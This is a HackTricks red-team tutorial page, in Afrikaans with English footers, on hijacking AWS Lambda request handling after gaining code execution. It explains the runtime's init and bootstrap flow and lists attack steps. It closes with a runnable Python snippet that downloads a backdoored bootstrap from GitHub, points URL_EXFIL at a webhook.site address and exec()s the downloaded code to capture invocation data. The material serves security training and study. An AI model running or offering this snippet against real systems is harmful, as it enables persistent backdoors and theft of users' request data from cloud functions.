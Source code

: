 # AWS - Steel Lambda Versoeke

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Stroom

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **stuur** **aanroepings** na die **init** proses.
2. Die init proses luister op poort **9001** wat 'n paar interessante eindpunte blootstel:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroep gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – keer die handler respons vir die aanroep terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – keer 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Laastens, **bootstrap.py** stuur die **respons** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses wat die kwesbare versoek hanteer, te laat uitvoer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die versoeke te hanteer terwyl die **legitieme** bootstrap **gevang** is wat die kwaadwillige een uitvoer, sodat dit nie versoeke aan die init proses sal vra nie.

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die legitieme **`bootstrap.py`** proses uitgevoer word. So kan die aanvaller:

* **Stuur 'n vals resultaat van die huidige aanroep na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepings.
* 'n Versoek moet gestuur word na **`/${invoke-id}/response`**
* Die invoke-id kan verkry word van die stapel van die legitieme **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer aan te vra na **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stealthiness doeleindes is dit moontlik om die lambda aanroepingsparameters na 'n aanvaller beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit vanaf die huidige lambda aanroep uit te voer.

### Aanval Stappe

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur te loop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
